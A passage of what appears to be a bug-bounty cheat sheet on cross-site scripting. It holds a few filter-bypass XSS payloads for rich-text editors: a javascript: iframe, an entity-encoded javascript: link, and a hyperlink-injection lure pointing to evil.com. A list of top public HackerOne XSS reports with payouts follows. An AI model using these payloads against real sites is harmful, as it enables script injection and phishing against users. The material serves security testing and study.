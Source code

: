     ```
    
- **XSS Bypass for Rich Text Editors**
    
    ```jsx
    First, try all the built-in functions like bold, links, and embedded images.
    <</p>iframe src=javascript:alert()//
    <a href="aaa:bbb">x</a>
    <a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>
    [Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection
    ```
    
- **XSS in meta tag**
    
    - [ ] [XSS bypass using META tag in realestate.postnl.nl | by Prial Islam Khan | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/xss-bypass-using-meta-tag-in-realestate-postnl-nl-32db25db7308)

# Top XSS reports from HackerOne:

1. [Bypass for #488147 enables stored XSS on](https://hackerone.com/reports/510152) [https://paypal.com/signin](https://paypal.com/signin) again to PayPal - 2530 upvotes, $20000
2. [Stored XSS on](https://hackerone.com/reports/488147) [https://paypal.com/signin](https://paypal.com/signin) via cache poisoning to PayPal - 646 upvotes, $18900
3. [Reflected XSS on](https://hackerone.com/reports/846338) [https://www.glassdoor.com/employers/sem-dual-lp/](https://www.glassdoor.com/employers/sem-dual-lp/) to Glassdoor - 632 upvotes, $1000
4. [Stored XSS in Wiki pages](https://hackerone.com/reports/526325) to GitLab - 595 upvotes, $4500
5. [Stored XSS on imgur profile](https://hackerone.com/reports/484434) to Imgur - 591 upvotes, $650
6. [Reflected XSS in OAUTH2 login flow](https://hackerone.com/reports/697099) to LINE - 471 upvotes, $1989
7. [XSS in steam react chat client](https://hackerone.com/reports/409850) to Valve - 453 upvotes, $7500
8. [Cross-Site-Scripting on www.tiktok.com and m.tiktok.com leading to Data Exfiltration](https://hackerone.com/reports/968082) to TikTok - 449 upvotes, $3860
9. [XSS vulnerable parameter in a location hash](https://hackerone.com/reports/146336) to Slack - 440 upvotes, $1100
10. [One-click account hijack for anyone using Apple sign-in with Reddit, due to response-type switch + leaking href to XSS on www.redditmedia.com](https://hackerone.com/reports/1567186) to Reddit - 419 upvotes, $10000
11. [Panorama UI XSS leads to Remote Code Execution via Kick/Disconnect Message](https://hackerone.com/reports/631956) to Valve - 407 upvotes, $9000
12. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 407 upvotes, $1000
13. [Stored XSS Vulnerability](https://hackerone.com/reports/643908) to WordPress - 394 upvotes, $500
14. [Reflected XSS and sensitive data exposure, including payment details, on lioncityrentals.com.sg](https://hackerone.com/reports/340431) to Uber - 369 upvotes, $4000
15. [Reflected XSS on www.hackerone.com and resources.hackerone.com](https://hackerone.com/reports/840759) to HackerOne - 355 upvotes, $500
16. [Stored XSS in wordpress.com](https://hackerone.com/reports/733248) to Automattic - 348 upvotes, $650
17. [HEY.com email stored XSS](https://hackerone.com/reports/982291) to Basecamp - 345 upvotes, $5000
18. [Reflected XSS in TikTok endpoints](https://hackerone.com/reports/1350887) to TikTok - 344 upvotes, $4500
19. [Blind XSS on Twitter's internal Big Data panel at █████████████](https://hackerone.com/reports/1207040) to Twitter - 338 upvotes, $5040
20. [Stored XSS in Private Message component (BuddyPress)](https://hackerone.com/reports/487081) to WordPress - 331 upvotes, $500
21. [XSS while logging using Google](https://hackerone.com/reports/691611) to Shopify - 325 upvotes, $1750
22. [Stored XSS in my staff name fired in another your internal panel](https://hackerone.com/reports/946053) to Shopify - 316 upvotes, $5000
23. [DOM XSS on duckduckgo.com search](https://hackerone.com/reports/868934) to DuckDuckGo - 316 upvotes, $0